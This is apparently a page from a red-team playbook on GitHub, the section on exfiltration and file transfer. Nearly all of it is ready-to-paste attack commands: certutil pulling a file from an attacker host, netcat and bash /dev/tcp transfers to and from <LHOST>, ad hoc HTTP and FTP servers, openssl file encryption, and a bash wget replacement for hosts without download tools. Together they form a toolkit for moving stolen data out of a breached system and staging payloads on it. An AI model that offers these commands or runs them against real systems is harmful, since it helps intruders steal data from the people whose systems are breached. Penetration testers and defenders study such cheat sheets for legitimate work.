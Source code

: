 # 7.2 Exfiltration

## Table of Contents

- [File Transfer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Transfer)
  - [Certutil](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Certutil)
  - [File Encryption / Decryption](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#File-Encryption--Decryption)
  - [Ncat](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Ncat)
  - [Python3 HTTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python3-HTTP-Server)
  - [Python SimpleHTTPServer](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Python-SimpleHTTPServer)
  - [Simple FTP Server](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Simple-FTP-Server)
  - [Transfering Files with Bash](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.2-Exfiltration.md#Transfering-Files-with-Bash)
  - [wget Replacement in Bash]()

### File Transfer

#### Certutil

##### Base64 Encoding

```c
C:\> certutil.exe -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Base64 Decoding

```c
C:\> certutil.exe -decode <FILE>.txt <FILE>.dll
```

#### File Encryption / Decryption

##### Encryption

```c
$ openssl enc -aes-256-cbc -pbkdf2 < <FILE> > <FILE>.enc
```

##### Decryption

```c
$ openssl enc -d -aes-256-cbc -pbkdf2 < <FILE>.enc > <FILE>
```

#### Ncat

```c
$ ncat --ssl -lnvp <LPORT>
```

#### Python3 HTTP Server

```c
$ pyhton3 -m http.server <LPORT>
```

#### Python SimpleHTTPServer

```c
$ python -m SimpleHTTPServer <LPORT>
```

#### Simple FTP Server

```c
$ python -m pyftpdlib -p 21 --write
```

#### Transfering Files with Bash

```c
$ nc -lnvp <LPORT> < <FILE>
```

```c
$ bash -c 'cat < /dev/tcp/<LHOST>/<LPORT>' > <FILE>
```

#### wget Replacement in Bash

Copy the following script directly to the shell.

```c
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
